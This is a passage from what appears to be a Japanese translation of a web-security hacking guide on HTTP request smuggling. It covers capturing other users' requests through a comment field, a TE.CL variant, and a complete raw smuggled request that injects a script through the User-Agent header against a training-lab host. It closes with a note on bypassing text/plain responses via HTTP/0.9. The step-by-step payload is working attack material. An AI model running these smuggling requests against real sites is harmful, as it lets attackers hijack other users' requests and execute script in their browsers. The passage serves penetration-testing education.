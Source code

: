 このシナリオでは、**commentパラメータ**は、公開アクセス可能なページの投稿のコメントセクション内の内容を保存することを目的としています。その結果、次のリクエストの内容はコメントとして表示されます。

しかし、この技術には制限があります。一般的に、これはスムーズなリクエストで使用されるパラメータ区切り文字までのデータしかキャプチャしません。URLエンコードされたフォーム送信の場合、この区切り文字は`&`文字です。これは、被害者ユーザーのリクエストからキャプチャされた内容が最初の`&`で停止することを意味し、これはクエリ文字列の一部である可能性さえあります。

さらに、このアプローチはTE.CL脆弱性でも有効であることに注意する価値があります。その場合、リクエストは`search=\r\n0`で終了する必要があります。改行文字に関係なく、値は検索パラメータに追加されます。

### HTTPリクエストスムージングを使用して反射型XSSを悪用する

HTTPリクエストスムージングは、**反射型XSS**に脆弱なウェブページを悪用するために利用でき、重要な利点を提供します：

* 対象ユーザーとの**対話は不要**です。
* HTTPリクエストヘッダーのような**通常は到達不可能な**リクエストの部分でXSSを悪用することができます。

ウェブサイトがUser-Agentヘッダーを介して反射型XSSに対して脆弱な場合、以下のペイロードはこの脆弱性を悪用する方法を示しています：
```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

A=
```
このペイロードは、脆弱性を悪用するために構成されています：

1. 一見典型的な`POST`リクエストを開始し、スムーギングの開始を示す`Transfer-Encoding: chunked`ヘッダーを含めます。
2. 次に、チャンク化されたメッセージボディの終わりを示す`0`が続きます。
3. その後、スムーグルされた`GET`リクエストが導入され、`User-Agent`ヘッダーにスクリプト`<script>alert(1)</script>`が注入され、サーバーがこの後続のリクエストを処理する際にXSSがトリガーされます。

スムーギングを通じて`User-Agent`を操作することで、ペイロードは通常のリクエスト制約を回避し、標準的ではないが効果的な方法で反射型XSS脆弱性を悪用します。

#### HTTP/0.9

{% hint style="danger" %}
ユーザーコンテンツが**`Content-type`**が**`text/plain`**のレスポンスに反映される場合、XSSの実行が防止されます。サーバーが**HTTP/0.9をサポートしている場合、これを回避できる可能性があります**！
{% endhint %}

HTTP/0.9は以前のバージョンで、1.0の前にあり、**GET**動詞のみを使用し、**ヘッダー**ではなくボディのみで応答します。

[**この書き込み**](https://mizu.re/post/twisty-python)では、リクエストスムーギングと**ユーザーの入力に応じて応答する脆弱なエンドポイント**を使用してHTTP/0.9でリクエストをスムーグルするために悪用されました。レスポンスに反映されるパラメータには**偽のHTTP/1.1レスポンス（ヘッダーとボディを含む）**が含まれていたため、レスポンスには`Content-Type`が`text/html`の有効な実行可能JSコードが含まれます。
